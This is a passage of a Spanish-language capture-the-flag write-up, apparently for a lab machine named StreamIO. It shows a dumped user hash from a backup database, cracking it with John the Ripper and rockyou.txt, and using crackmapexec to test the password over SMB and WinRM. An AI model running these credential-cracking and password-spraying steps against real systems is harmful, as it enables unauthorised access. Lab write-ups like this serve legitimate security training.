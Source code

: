 ```mysql
column_name                                                                                                                        

--------------------------------------------------------   

id                                                                                                                                 

username                                                                                                                           

password                                                                                                                           

SQL> select username,password from users
username                password                                             

----------------------- --------------------------------   

nikk37                  389d14cb8e4e9b94b137deb1caf0612a                     

...[snip]...  
```

### Un Usuario escondido [+](#nikk37) {#nikk37}

Vemos otras bases de datos como 'streamio_backup', en ella tambien se oculta un usuario 'nikk37' que no lo hemos visto en el primer reconocimiento

Crackeamos el nuevo hash para ver la contraseña:
```ruby
❯ john -w:$(locate -r 'rockyou.txt$') hash --format=raw-md5
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
get_dem_girls2@yahoo.com (nikk37)
```

Verificamos si el usuario y esa contraseña se reutiliza con el resto con crackmapexec:
```ruby
❯ crackmapexec smb 10.10.11.158 -u user.txt -p 'get_dem_girls2@yahoo.com'
SMB         10.10.11.158    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.158    445    DC               [+] streamIO.htb\nikk37:get_dem_girls2@yahoo.com 
```

Y es valida para Samba, ahora veamos si tiene habilitado la administración remota de usuario
```ruby
❯ crackmapexec winrm 10.10.11.158 -u 'nikk37' -p 'get_dem_girls2@yahoo.com' --continue-on-success
SMB         10.10.11.158    5985   NONE             [*] None (name:10.10.11.158) (domain:None)
HTTP        10.10.11.158    5985   NONE             [*] http://10.10.11.158:5985/wsman
WINRM       10.10.11.158    5985   NONE             [+] None\nikk37:get_dem_girls2@yahoo.com (Pwn3d!)
```
